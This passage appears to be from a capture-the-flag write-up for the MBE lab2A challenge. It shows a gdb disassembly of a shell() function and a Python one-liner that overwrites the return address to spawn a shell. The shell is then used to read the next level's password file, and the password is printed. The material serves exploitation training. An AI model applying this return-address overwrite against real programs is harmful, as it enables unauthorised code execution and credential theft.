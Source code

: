 Awssome, the return value is properly overwrote. Now, we just need to know the address of the *shell()* function and modify our exploit.

```nasm
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080486fd <+0>: push   ebp
   0x080486fe <+1>: mov    ebp,esp
   0x08048700 <+3>: sub    esp,0x18
   0x08048703 <+6>: mov    DWORD PTR [esp],0x8048890
   0x0804870a <+13>:    call   0x80485c0 <puts@plt>
   0x0804870f <+18>:    mov    DWORD PTR [esp],0x804889b
   0x08048716 <+25>:    call   0x80485d0 <system@plt>
   0x0804871b <+30>:    leave  
   0x0804871c <+31>:    ret    
End of assembler dump.
```

Here, the address is `0x080486fd`.

## Solution

Let's write our exploit!

```shell
lab2A@warzone:/levels/lab02$ (python -c 'print "A" * 12 + "\n" + 23 * "A\n" + "\xfd\n\x86\n\x04\n\x08\n" + "\n"' && cat) | ./lab2A
Input 10 words:
Failed to read word
You got it
whoami
lab2end
cat /home/lab2end/.pass
D1d_y0u_enj0y_y0ur_cats?
````

Yay! You are done with **Lab02**. You can go to the next [challenge](/writeups/mbe/lab3c/)!